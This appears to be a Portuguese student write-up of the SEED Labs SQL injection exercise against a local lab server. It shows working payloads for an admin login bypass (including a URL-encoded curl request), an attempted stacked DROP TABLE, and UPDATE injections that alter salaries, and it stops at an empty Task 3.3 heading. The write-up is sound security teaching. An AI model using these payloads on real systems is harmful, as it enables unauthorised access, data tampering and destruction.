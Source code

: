 # SQL Injection Attack LAB

## Setup

Para começar a realizar este lab começamos por adicionar uma nova entrada nos hosts conhecidos pela máquina virtual, <b>www.seed-server.com</b>, <b>sudo nano etc/hosts</b> e adicionando <b>10.9.0.5 www.seed-server.com</b>. Depois, executamos os containers usando <b>dcbuild</b> <b<#docker-compose build</b> e <b>dcup</b> <b<#docker-compose up</b>. Por último executamos <b>mysql -u root -pdees</b> e <b>use sqllab_users</b> para executar como superuser e selecionar o schema.


## Tasks

### Task 1: Get Familiar with SQL Statements

A tarefa consistia em selecionar os dados do utilizador "Alice"

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

Obtendo estes dados:

![Alt text](image-12.png)


###  Task 2: SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage

Exploramos o site <b> "www.seed-server.com" </b> disponibilizado pelo Docker, assim como o ficheiro <b>unsafe_home.php</b>. Visualizamos que a query era frágil uma vez que o servidor vai criar dinamicamente o comando com as strings não sanitizadas provenientes do input do utilizador.

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password FROM credential WHERE name='admin'# and Password=’$hashed_pwd’
```
Assim, conseguimos realizar o login na conta do admin, obtendo assim todos os dados dos usuários.

![Alt text](image-13.png)

#### Task 2.2 - Login in adminstrator mode from command line

Realizamos o mesmo tipo de ataque usando um pedido GET através do comando:

```bash
curl "www.seed-server.com/unsafe_home.php?username=user&Password=pass"
```

Usando o mesmo input da tarefa anterior, mas com a codificação URL (%27 = ' e %23 = #), geramos o comando malicioso:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Isso deu-nos acesso ao HTML da página contendo informações pessoais dos usuários.



#### Task 2.3 - Append a new SQL statement

Adicionamos comandos SQL usando ";". Tentamos, por exemplo, excluir a tabela de credenciais:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

Mas a operação falhou devido a uma proteção na extensão MySQL usada pelo PHP do servidor, que impede múltiplas queries.

![Alt text](image-14.png)



### Task 3: SQL Injection Attack on UPDATE Statement

#### Task 3.1 - Modify your own salary

Depois de logar com uma conta do sistema (por exemplo, username = Alice, password = alice1), acessamos uma página de edição de dados que é gerida a partir do ficheiro disponibilizado <b<unsafe_edit_backend.php</b>. Usamos o campo "phone number" para manipular o salário:

```sql
910123125',Salary='1111111
```

Isso resultou na execução da seguinte instrução SQL, que também alterou o salário:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='910123125',Salary='1111111' WHERE ID=$id;
```

Assim, a variável salário foi alterada para o valor escolhido.


#### Task 3.2 - Modify other people’ salary

Para mudar o salário de outro usuário, criamos uma nova cláusula WHERE. Desta maneira, comentamos a que estava no sistema para não interferir na pesquisa.

```sql
910123125',Salary='-111' WHERE Name='Boby'#
```

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='910123125',Salary='-111' WHERE Name='Boby'# WHERE ID=$id;
```
Alterando assim o salário do Boby.

#### Task 3.3 - Modify other people’ password

